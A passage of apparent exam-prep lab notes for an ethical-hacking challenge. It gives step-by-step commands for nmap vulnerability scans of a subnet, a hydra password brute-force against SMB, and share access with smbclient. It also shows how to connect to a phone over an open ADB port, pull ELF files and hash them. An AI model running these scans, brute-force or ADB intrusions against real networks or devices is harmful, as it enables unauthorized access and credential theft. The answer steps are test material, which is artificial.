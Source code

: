 ```bash
decode it.
2. sudo nmap -T4 -Ss -p 139,445 --script vuln 192.168.0.0/24
3. hydra -l henry -P /home/passlist.txt 192.168.0.1 smb
4. smbclient //192.168.0.1/share
5. smbclient -L 192.168.0.1
6. type password and ls
7. get sniff.txt ~/Desktop/falg2.txt or more sniff.txt
8. cat falg2.txt
9. now encrypt the text using the same henry login password in bctextencoder.exe manual open
```

4.An insider attack has been identified in one of the employees mobile device in 192.168.0.0/24 subnet. You are assigned to covertly access the users device and obtain malicious elf files stored in a folder "Scan". Perform deep scan on the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value.

```bash
Scan adb port: nmap -sV -p 5555 192.168.x.x/2x
Connect adb: adb connect TARGET_IP:5555
#7aea
Access mobile device: 
adb shell 
pwd 
ls
cd 
sdcard/scan 
ls 
cat secret.txt 
(If you can\'t find it there then go to Downloads folder using: cd downloads)

Download files: adb pull /sdcard/scan 
(if it doesn\'t work we need to elevate privilege using sudo -i)

We've three elf files, now we need to calculate entropy (or use Detect it easy)
for each of them using this command: ent file.elf

After selecting file.elf with highest entropy, we need to calculate 
hash of SHA 384: 
sha384sum file.elf 
and consider only the last 4 digits of the hash result. --> Use hashcalc

---
1. sudo nmap -p 5555 192.168.0.0/24
2. adb connect 192.168.0.14:5555
3. adb shell
4. ls and cd sdcard and ls and pwd
5. adb pull /sdcard/scan/ or adb pull /sdcard/scan attacker/home/
6. ls and cd scan and ls
7. ent -h or apt install ent
8. ent evil.elf
9. ent evil2.elf
10. ent evil3.elf
11. sha384sum evil.elf
12. then you get one hash value type last 4 characters.
```
